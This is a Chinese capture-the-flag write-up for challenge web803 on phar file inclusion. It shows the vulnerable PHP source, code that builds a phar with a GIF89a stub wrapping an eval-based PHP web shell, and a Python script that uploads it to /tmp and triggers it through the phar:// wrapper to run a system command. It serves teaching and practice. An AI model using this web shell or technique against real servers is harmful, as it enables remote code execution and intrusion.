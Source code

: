 
##  **phar文件包含**

### web803

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```

我们看到题目web目录下没有写权限，需要写到其他地方比如/tmp下

首先生成phar文件

```php
<?php 
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>


```

接着上传文件

```python
import requests  
url="http://d4d6bb42-e30d-4ed7-b823-baa8ec7e8cc8.challenge.ctf.show/index.php"
data1={'file':'/tmp/a.phar','content':open('shell.phar','rb').read()}
data2={'file':'phar:///tmp/a.phar/a','content':'123','1':'system("cat f*");'}
requests.post(url,data=data1)
r=requests.post(url,data=data2)
print(r.text)

```

得到flag

## **phar反序列化**

